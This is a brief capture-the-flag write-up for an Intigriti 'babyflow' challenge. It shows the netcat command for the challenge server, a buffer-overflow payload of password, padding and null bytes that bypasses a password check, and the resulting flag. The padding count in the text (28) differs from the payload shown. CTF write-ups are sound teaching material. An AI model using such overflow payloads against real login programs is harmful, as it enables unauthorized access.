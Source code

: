 ```
Does this login application even work?!

nc babyflow.ctf.intigriti.io 1331
```

This challenge you use bufferoverflow to get flag.

```
"SuPeRsEcUrEPaSsWoRd123" (the correct password)
28 As to fill up the buffer
4 bytes of \x00\x00\x00\x00 to overwrite var_14 and make strncmp return 0.
```

Payload : `SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00`

```
Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00
Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```